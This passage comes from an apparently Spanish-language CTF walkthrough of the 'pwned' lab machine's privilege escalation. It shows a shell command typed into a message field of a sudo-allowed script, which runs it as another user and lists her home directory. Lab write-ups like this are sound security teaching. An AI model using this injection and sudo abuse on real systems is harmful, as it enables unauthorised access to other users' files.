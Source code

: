 Pues ya tenemos la flag de user (he omitido la flag para que no se vea 😉). El creador nos invita a que vayamos a por la de root, así que vamos a por él.


## Escalada de privilegios

Vamos a ver por dónde puede ir la cosa:

~~~bash
ariana@pwned:~$ sudo -l
Matching Defaults entries for ariana on pwned:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ariana may run the following commands on pwned:
    (selena) NOPASSWD: /home/messenger.sh
~~~

Esto nos indica que podemos ejecutar ese script como Selena sin necesidad de contraseña.

Bien, como visteis antes, había un fichero llamado "ariana-personal.diary" el cual nos insinua una pista:

~~~bash
ariana@pwned:~$ cat ariana-personal.diary 
Its Ariana personal Diary :::

Today Selena fight with me for Ajay. so i opened her hidden_text on server. now she resposible for the issue.
~~~

Pero si tratamos de ver lo que tiene en su carpeta personal no tenemos permisos:

~~~bash
ariana@pwned:~$ ls -l /home/selena
ls: cannot open directory '/home/selena': Permission denied
~~~

La idea sería aprovecharnos del script "messenger.sh", el cual podemos ejecutar como Selena, para tratar de introducir comandos y leer su directorio.

``ariana@pwned:~$ sudo -u selena /home/messenger.sh``
~~~
Welcome to linux.messenger 


ariana:
selena:
ftpuser:

Enter username to send message : ariana

Enter message for ariana :ls -la /home/selena

Sending message to ariana 
total 24
drwxrwx--- 3 selena root   4096 Jul 10  2020 .
drwxr-xr-x 5 root   root   4096 Jul 10  2020 ..
-rw------- 1 selena selena    1 Jul 10  2020 .bash_history
drwxr-xr-x 3 selena selena 4096 Jul  9  2020 .local
-rw-r--r-- 1 selena selena  132 Jul 10  2020 selena-personal.diary
-rw-r--r-- 1 selena selena  100 Jul 10  2020 user2.txt

Message sent to ariana :) 
~~~
